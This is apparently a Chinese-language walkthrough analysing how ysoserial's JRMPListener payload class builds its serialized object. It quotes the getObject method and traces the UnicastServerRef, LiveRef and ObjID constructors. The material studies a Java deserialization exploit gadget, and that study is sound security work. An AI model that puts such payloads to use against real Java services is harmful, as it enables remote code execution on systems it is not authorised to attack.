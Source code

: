 ### payloads.JRMPListener 生成 payload

生成 Payload Object 的主要在于 JRMPListener 的 getObject 方法

```bash
public UnicastRemoteObject getObject ( final String command ) throws Exception {
    // 端口
    int jrmpPort = Integer.parseInt(command);
    UnicastRemoteObject uro = Reflections.createWithConstructor(ActivationGroupImpl.class, RemoteObject.class, new Class[] {
        RemoteRef.class
    }, new Object[] {
        new UnicastServerRef(jrmpPort)
    });

    Reflections.getField(UnicastRemoteObject.class, "port").set(uro, jrmpPort);
    return uro;
}
```

在程序第二句使用 Reflections.createWithConstructor 方法构造一个 UnicastRemoteObject 对象，传递了四个参数  
观察传入的第四个参数，将端口作为参数 new 一个 UnicastServerRef 对象，进入该类构造函数

```bash
public UnicastServerRef(int var1) {
    // LiveRef 是 UnicastServerRef 的父类 UnicastRef 的嵌套类，它表示一个远程对象的引用
    super(new LiveRef(var1));
    this.forceStubUse = false;
    this.hashToMethod_Map = null;
}
```

进入 LiveRef 的构造函数

```bash
public LiveRef(int var1) {
    this(new ObjID(), var1);
}
```

继续进入 ObjID 的构造函数

```bash
public ObjID() {
    /*
        * If generating random object numbers, create a new UID to
        * ensure uniqueness; otherwise, use a shared UID because
        * sequential object numbers already ensure uniqueness.
        */
    if (useRandomIDs()) {
        // 如果使用随机对象编号，创建一个新的 UID 对象，并将其赋值给 space 字段。UID 是 Java 中的唯一标识符，用于表示全局唯一的标识符
        space = new UID();
        // 生成一个随机的 long 类型的对象编号
        objNum = secureRandom.nextLong();
    } else {
        space = mySpace;
        objNum = nextObjNum.getAndIncrement();
    }
}
```
